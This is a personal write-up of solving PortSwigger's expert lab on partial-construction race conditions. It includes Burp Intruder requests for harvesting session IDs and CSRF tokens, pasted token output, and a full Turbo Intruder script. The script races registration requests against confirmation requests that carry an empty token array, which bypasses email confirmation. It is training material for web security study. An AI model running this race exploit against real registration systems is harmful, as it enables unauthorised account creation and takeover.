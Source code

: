 # Portswigger Lab: Race Conditions Partial Construction - My Solution

When I noticed on the evening of Thursday the 9th of August that James
Kettle had published new research, [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine) 
in connection with his talk at Defcon 2023 I was super exited to dig into
it. I was, however, also dead tired from spending the day exploring Vienna,
Austria with my family. So I promised myself I'd get started on the train
home the following day.

By early Saturday afternoon I had already finished the *apprentice* and
*practitioner* labs, and so I settled in for the 
new expert lab, [Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction).

It's tricky, as promised in James' article.

## My approach

One of the first things that I noticed was the presence of a phpsessionid cookie.

Both the research paper and the academy article mention that the
standard PHP session library forces sequential requests within a given
session, masking race condition vulnerabilities. So I decided that my first
step would be to create a valid sessions, and gather the *phpsessionid* and
corresponding anti-csrf tokens.

My first attempt to generate sessions was with Burp macros, but after a few
hours of little or no progress I decided that I'd learn about macros later,
and would resort to pre-creating sessions in the Intruder. My reasoning is
that these sessions would be valid for some time, possibly for the lifetime
of the lab instance. 

I did worry a bit that a registration event might become tied to a given
session, but thankfully that turned out not to be the case.

Here's the request I used in Intruder:

```
GET /register HTTP/2
Host: <host>.web-security-academy.net
X-Count: §xxx§

```

![A simple GET request sent to intruder, and minimised, with an extra header for the dummy payload](resources/intruder_positions.png)

I decided to use sniper mode, with a dummy payload placed in a user-defined
header. In this case `X-Count`. 100 requests turned out to be overkill, but
I'll address that later.

![The payload is just a count](resources/intruder_payloads.png)

All that's left is to set up the extraction of server-provided data, the
phpsessionid and its associated anti-CSRF token, which are easily done in
the extraction tool in the Intruder settings section.

![Extract the phpsessionid from all responses](resources/intruder_extract_phpsessionid.png)

![Extract the anti-CSRF token from all responses](resources/intruder_extract_csrf.png)


The attack runs smoothly, and produces a results table which can be copied
and pasted into a file. Again these sessions seem to last for the lifetime
of the lab container instance.

![The results from Intruder](resources/intruder_results.png)

Here's an example of the Intruder attack output as text. I just did a select all,
copy in the intruder output and pasted it into a file called
*sessions.txt*:

```
0		200	false	false	3147	wXjqeZ18d0p4orBWLRrws1JxPudsHBYp	jsmKE2V5e6kjazHLnP2SKstCQz1kaUQu	
1	0	200	false	false	3147	wX3xGn0tXJNsy6IO2C1vHE6E6UEu02Mz	1XsQ0sju2ZdexPQAdgeNNF5iXam8Rw52	
2	1	200	false	false	3147	0IrTeheHwCkaHkAZt383a7SS78VmiYMZ	driecRa3rIxHe3EXcngVCSGyy91AqpCH	
3	2	200	false	false	3147	rqpEdsfbYPlHj87T7wnYAj7Lo6ZROkyC	XpxZvfGzRqdlgsPRSiuxPNiArMWMUuI8	
~~~
97	96	200	false	false	3147	LebKIrc0hVlbONMVPVKlJ8H7yjOW3pD1	DJMwwAendB5reAfsZnYczptOefZc4NCV	
98	97	200	false	false	3147	dRr3IcrF804i8BebS3kLjZfUJgy2maVF	06ASdOwrFItk4mM6XEXWIFZQMRyZNXnX	
99	98	200	false	false	3147	IQrkT05XeVPhdhjgolVqvChdWWyaMhHK	wMDEwWqsfFeNkmQ8ZT4b3k97TDYDTqkn	
100	99	200	false	false	3147	H2MIypAPjMvFd5RjxmSThB0P82TwEaCO	HE2tPZ9HWAKMhpc8vWzdMeVDZPPyryJl	
```

Once I had sessions I moved on constructing the actual turbo intruder
attack, and for an hour or so I got it completely wrong. I started with a
strategy of attacking the password, using a login request, reasoning that
there might be a short window in which the account is available and
unlocked. 

That didn't work, of course, but it did lead to a key observation. All POST
endpoints in the lab accept *extra* POST parameters without complaint. This
means that it's possible to use a single request for all endpoints, with
the path as a parameter.

Let's compare a valid registration request:
```
POST /register HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

With a valid login request:
```
POST /login HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

The login endpoint simply ignores the extra *email* parameter, which means
that the path can be parametized in Turbo-Intruder:

```
POST /%s HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=%s
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=%s&username=%s&email=%s%40ginandjuice.shop&password=peter
```

Later when I got frustrated that this wasn't working I went back and found
the oddly named /resources/static/users.js, and pretty quickly constructed
a GET request to /confirm. From there all that was left was to validate
that the /confirm POST endpoint would accept extra params. It does:

```
POST /confirm?token=foo HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

That means that just as with the failed attempt on the /login endpoint it's
possible to bounce back and forth between registration and confirmation.

So that's exactly what my Turbo-Intruder settings script does. For each
registration it also queues a confirmation POST in the hope that one or
more of them hit the tiny window during which confirmation can be done
a null token. The server of course processes the requests in whatever order
it chooses. So it's all luck from here:

Turbo-Intruder configuration (also available as ./partial_construction_race_condition.py).

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for line in open('/tmp/sessions.txt'):
        data = line.split('\t')
        phpsessionid = data[6]
        csrf = data[7]
        username = randstr(8)
        engine.queue(target.req, ['register',       phpsessionid, csrf, username, username], gate='race1', learn=1)
        engine.queue(target.req, ['confirm?token[]=', phpsessionid, csrf, username, username], gate='race1', learn=2)

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')
    #engine.openGate('race2')


def handleResponse(req, interesting):
    table.add(req)

```

However it turns out that 100 registrations are complete overkill.
Statistically it looks like just under one quarter of the confirmation
requests hit the window, producing about two dozen valid accounts:

![Turbo intruder setup](resources/turbo_intruder_setup.png)

![Turbo intruder results](resources/turbo_intruder_success.png)


All that's left is to log in with one of them and delete *Carlos*:

![](resources/success.png)


## Lessons learned

I really should have noticed users.js earlier. Having done so would have
saved me at least an hour. I can generalize this into a lesson to invest
more time into the reconaissance phase of an attack.



